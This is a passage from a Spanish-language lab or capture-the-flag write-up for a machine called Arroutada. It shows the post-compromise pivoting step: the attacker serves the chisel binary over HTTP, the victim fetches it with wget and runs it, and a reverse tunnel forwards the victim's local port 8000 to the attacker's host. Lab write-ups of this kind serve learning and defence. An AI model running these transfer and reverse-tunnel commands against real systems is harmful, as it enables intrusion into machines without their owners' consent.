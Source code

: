 Encontramos un servicio TCP corriendo localmente en el puerto 8000, procedemos a hacer un [port forwarding](https://es.wikipedia.org/wiki/Redirecci%C3%B3n_de_puertos), la idea es crear un túnel entre el servidor web de Arroutada y nuestra máquina para ver que servicio hay en ese puerto.

Para ello usaremos la herramienta [chisel](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html) 

>Otra opción es usar curl dentro del propio servidor web, desde donde hemos conseguido acceso para listar la información del puerto, pero no lo tenemos instalado, por eso la mejor opción es chisel.

Ahora debemos ver donde se encuentra chisel (en nuestro sistema) y pasarlo a la máquina víctima con wget y con un servicio web.

Primero debemos saber donde se encuentra chisel dentro de nuestra máquina para ello usaremos 

```zsh
which chisel
```
![](/assets/img/posts/arroutada/which.png)

Nos movemos a la carpeta donde se encuentre _(es posible que vosotros la tengáis en /usr/bin/chisel)_, dentro de la carpeta abrimos un servidor HTTP con python3

```zsh
python3 -m http.server 80
```

Ahora en la máquina victima usaremos el wget para pasarnos el chisel desde nuestra máquina a la víctima, es importante que el wget lo realicemos en una carpeta donde tengamos permisos de escritura (carpeta tmp), porque si no dará un error y cerrará al conexión.

Para poder ejecutar y usar el comando chisel en la máquina victima nos tenemos que dar permisos de ejecución con `chmod +x chisel` 

![](/assets/img/posts/arroutada/permchisel.png)

Creamos el chisel server en nuestra máquina

```zsh
chisel server --reverse -p 1234
```

>El comando indica que vamos a iniciar chisel en modo servidor
>El parámetro --reverse se usa para establecer una conexión de túnel inverso
>El parámetro -p indica el puerto de conexión
{:.prompt-info }

Creamos el client en la máquina víctima

```zsh
./chisel client 192.168.0.162:1234 R:8000:127.0.0.1:8000
```

>El comando indica que vamos a iniciar chisel en modo cliente
>El parámetro ip:port indica la IP y el puerto del servidor
>El parámetro R:port:ip:port configra un reenvío del puerto 8000 de la máquina víctima al puerto 8000 de nuestra máquina
{:.prompt-info }

